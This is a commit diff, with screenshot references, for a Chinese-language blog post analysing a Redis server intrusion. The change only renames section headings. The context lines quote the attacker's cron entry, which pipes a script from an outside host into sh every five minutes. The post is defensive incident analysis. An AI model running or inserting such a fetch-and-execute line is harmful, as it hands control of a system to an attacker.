

Before and after one commit to legolasNg/legolasNg.github.io, a Jekyll site: the page built from _posts/2017-03-03-redis-security-matters.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
[fix]  section modify

````diff
--- a/_posts/2017-03-03-redis-security-matters.md
+++ b/_posts/2017-03-03-redis-security-matters.md
@@ -15,13 +15,13 @@
 \n\n*/5 * * * * /usr/bin/curl -fsSL http://sx.doiton.tk/test.sh | sh\n\n
 ```
 
-### 计划任务检查
+### 检查1:计划任务
 
 看到这个，很自然会想到crond的计划任务，`*/5 * * * * /usr/bin/curl -fsSL http://sx.doiton.tk/test.sh | sh`的意思是"每5分钟去下载并执行这个test脚本"。所以第一时间去检查系统计划任务，但是并没有发现什么，貌似这个计划任务并没有添加成功(因为机器上运行redis服务的是一个nologin的用户)。
 
 `crontab -l`可以查看当前用户的所有计划任务，但是难免会有遗漏，或者通过其他用户添加，我们最好是查看下`/var/spool/cron/`目录下所有文件。crond的具体操作以及命令格式，可以看我之前的文章 -- [crond环境变量问题](/2016/12/16/crond-env-problems/) 。
 
-### 脚本检查
+### 检查2:脚本内容
 
 计划任务没有发现什么问题，所以只好去看看入侵者想要下载和执行的脚本，或许能发现什么。下载完脚本，打开之后，内容如下(注释是本人添加)：
 
@@ -67,8 +67,6 @@
 ## 还原过程
 
 侥幸逃过了一劫，庆幸之余来分析下入侵者的入侵过程。
-
-### 利用原理
 
 > redis的安全理念是，“不要将Redis暴露在公网中, 因为让不受信任的客户接触到Redis是非常危险的”。redis作者之所以放弃解决未授权访问导致的不安全性是因为, 99.99% 使用 Redis 的场景都是在沙盒化的环境中, 为了0.01%的可能性增加安全规则的同时也增加了复杂性, 虽然这个问题的并不是不能解决的, 但是这在他的设计哲学中仍是不划算的。[[1]](http://blog.knownsec.com/2015/11/analysis-of-redis-unauthorized-of-expolit/)
 
````
